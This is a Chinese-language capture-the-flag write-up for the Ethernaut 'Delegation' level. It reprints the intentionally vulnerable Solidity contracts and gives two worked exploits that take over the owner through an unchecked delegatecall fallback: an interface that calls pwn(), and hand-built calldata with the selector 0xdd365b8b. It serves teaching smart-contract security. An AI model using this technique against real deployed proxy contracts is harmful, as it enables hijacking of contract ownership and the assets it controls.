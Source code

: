 # level6 delegation

## 1. 问题
将`Delegation`合约的owner修改为自己的账户地址。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

## 2. 解法
本题初始部署了2个合约`Delegation`和`Delegate`, 前者记录了后者地址，并在fallback函数里面通过delegatecall调用了`delegate`合约。

`Delegate`这个合约中pwn这个函数，就是把合约中第一个slot的address值设置为msg.sender，而`Delegation`合约的第一个slot参数也是address，恰好就是我们想改的owner！

我们就是要触发这个fallback合约执行，因为`Delegate`合约恰好有个叫pwn的函数，可以设置owner地址为消息的发送方。

### 2.1 解法1：直接在Delegation中“创建一个pwn函数”
1. 通过观察`Delegation`的fallback我们发现，他其实就是相当于将`Delegate`作为他的逻辑合约，`Delegation`实际上是代理合约。

2. 所以，我们可以在remix中，重新定义`Delegation`的方法，加一下`pwn`这个函数，如下所示：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Delegation {

    // 直接调用pwn函数，实际上Delegation合约会通过delegatecall调用Delegate的pwn来执行
    function pwn() external;

    // 查询owner，方便remix校验结果
    function owner() external view returns (address);
}
```

3. 在remix中编译，并指定`at address`关联到已有的合约地址，地址填`Delegation`的地址

4. 我们先点击remix里面的`owner`函数，查一下现在的地址，发现是`0x73379d8B82Fda494ee59555f333DF7D44483fD58`   

5. 在remix中，直接点击pwn, 提交交易[0x8e56037b4868f25f6b7ad603b025ad3c209e582e33641a5c3b6836014111aa1a](https://sepolia.etherscan.io/tx/0x8e56037b4868f25f6b7ad603b025ad3c209e582e33641a5c3b6836014111aa1a)


4. 我们再点击remix里面的`owner`函数，查一下现在的地址，发现已经改好了!

5. 点击 `submit instance`， 提交通过！

### 2.2 解法2：手工构造delegatecall的参数

1. 假如我们没有发现`Delegation`和`Delegate`函数是proxy合约 vs 逻辑合约的关系，也没事，我们就按照fallback函数的逻辑，手工构造出来`msg.data`, 使得正好可以调用pwn的逻辑。

2. 为此，我们通过delegatecall应该构造的参数应该是`address(DelegateAddress).delegatecall(abi.encodeWithSignature('pwn()'));`. 问题就转换成，如何算出来`abi.encodeWithSignature('pwn()')`的值

3. 我们启动chisel（需要安装foundry），执行下面的命令：
```solidity
abi.encodeWithSignature('pwn()')
```

![](../../resources/img/level6/pwn_selector.jpg)

- 因为函数的签名是取前4个字节，所以我们要填的值是`0xdd365b8b`

4. 正式开始编译remix，准备调用，我们对下面的代码进行编译：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Delegation2 {

    // 如果不写这个函数，remix不允许我们调用transact按钮
    fallback() external;
}
```

> 因为刚刚我们已经展示了owner函数，对于解法2 ，我们就不加了，需要的也可以加一下owner函数，自己按体验一下。

5. 同样选择`at address`, 输入合约地址

6. 我们直接通过remix里面的transact方式，发起交易[0xe35f7832c401ef753f066fa8242dc1c5459e66154d7f32111f028c37fced5909](https://sepolia.etherscan.io/tx/0xe35f7832c401ef753f066fa8242dc1c5459e66154d7f32111f028c37fced5909)

![](../../resources/img/level6/transact.jpg)

7. 这次我们在chrome的控制台，用ethernaut提供的合约交互接口查一下owner，发现已经变成我们自己的账户了：
```bash
await contract.owner();
```

8. 点击 `submit instance`， 提交通过！


## 3. 补充说明

1. 我们使用transact方法调用时，原理上他会先便利`Delegation`的所有function，看下有没有某个函数的selector恰好是`0xdd365b8b`, 如果没有，则会调用`Delegation`的fallback方法，达到我们的效果。 关于fallback和receive的用法，可以阅读一下这篇文章 [Solidity中的回退函数fallback和receive详解](https://learnblockchain.cn/article/8435)
